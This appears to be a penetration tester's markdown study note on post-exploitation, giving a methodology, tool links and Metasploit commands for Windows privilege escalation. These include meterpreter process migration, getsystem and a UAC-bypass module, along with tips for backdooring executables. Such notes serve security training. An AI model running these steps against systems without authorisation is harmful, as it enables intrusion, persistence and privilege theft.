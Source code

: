 > The last step in the penetration testing chain (info gathering -> scanning -> enumeration -> sniffing -> va & exploitation -> post exploitation)

Post exploitation is a cyclic process requiring the application of the same steps if new targets are found in the network

Post exploitation methodology:
1. Privilege escalation + maintaining access
2. Harvesting of data
3. Scanning of the internal network
4. Exploitation of new systems and pivoting
5. Goto 1 (if new machine is found and exploited)

## Enumeration of exploits

- [PEASS](https://github.com/carlospolop/PEASS-ng)

## Privilege escalation

> Extending the rights on a target already exploited from a normal user to either `root` or `NT AUTHORITY\SYSTEM`  (former linux, latter windows)

### General

- check permissions and replace `dlls` and `executables` with your epxploitcode where possible
- inject code into executables [shellter](https://www.shellterproject.com/introducing-shellter/) or [backdoor-factory](https://github.com/secretsquirrel/the-backdoor-factory) `msfvenom` also does the job-> requires restart of application!

### Windows privilege escalation

Comprised of several steps, in the assumption we use metasploit and have a meterpreter session

1. Maintain access through process migration (same permissions, added stability)

```bash
meterpreter> run post/windows/manage/migrate
```

2. Maintain access with higher permissions

```bash
meterpreter> getsystem  # may no longer work on modern OSes (UAC and AV blocking)

# verify if UAC is activated
msf> use post/windows/gather/win_privs

# if UAC is on and we have no permissions, check for bypass
msf> search bypassuac
msf> use exploit/windows/local/bypassuac_windows_store_filesys  # or other

# verify privilege escalation
msf> use post/windows/gather/win_privs
meterpreter> getsystem  # if we have admin, this should be successfull
```
